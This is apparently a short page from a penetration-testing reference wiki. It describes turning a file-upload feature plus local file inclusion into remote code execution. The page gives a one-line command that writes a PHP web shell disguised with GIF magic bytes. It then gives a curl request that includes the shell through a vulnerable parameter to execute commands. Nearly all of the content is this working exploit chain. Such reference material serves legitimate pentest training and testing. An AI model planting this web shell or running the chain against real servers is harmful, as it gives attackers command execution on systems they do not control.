 # file upload

## Image Upload

{% hint style="info" %}
The prerequisite for this method is to be able to [upload a file](../../../../web-services/attacks-on-inputs/unrestricted-file-upload.md).
{% endhint %}

```bash
# GIF8 is for magic bytes
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

curl --user-agent "PENTEST" "$URL/?parameter=/path/to/image/shell.gif&cmd=id"
```

{% hint style="info" %}
Other LFI to RCE via file upload methods may be found later on the chapter [LFI to RCE (via php wrappers)](file-upload.md#via-php-wrappers-and-streams).
{% endhint %}
